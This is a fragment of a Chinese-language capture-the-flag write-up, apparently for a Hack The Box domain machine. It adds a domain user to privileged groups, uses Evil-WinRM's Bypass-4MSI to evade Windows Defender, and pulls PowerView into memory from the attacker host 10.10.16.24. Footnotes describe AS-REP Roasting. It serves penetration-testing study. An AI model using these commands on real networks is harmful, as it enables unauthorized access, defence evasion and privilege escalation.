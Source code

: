 创建一个新用户`test123`

`net user test123 test123! /add /domain`

添加权限

`net group 'Exchange Windows Permissions' test123 /add /domain`

`net localgroup 'Remote Management Users' test123 /add`

```shell
   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```

> *Evil-WinRM* PS C:\Users\test123\Documents> menu

```shell
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!

```

> *Evil-WinRM* PS C:\Users\test123\Documents> Bypass-4MSI

执行`Bypass-4MSI`绕过`Windows defend`

上传[`PowerView.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1),并且存入当前会话

> *Evil-WinRM* PS C:\Users\test123\Documents> iex(new-object net.webclient).downloadstring('http://10.10.16.24:8000/PowerView.ps1')

`$pass = convertto-securestring 'test123!' -AsPlainText -Force`

`$cred = new-object system.management.automation.pscredential('htb\test123',$pass)`


[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1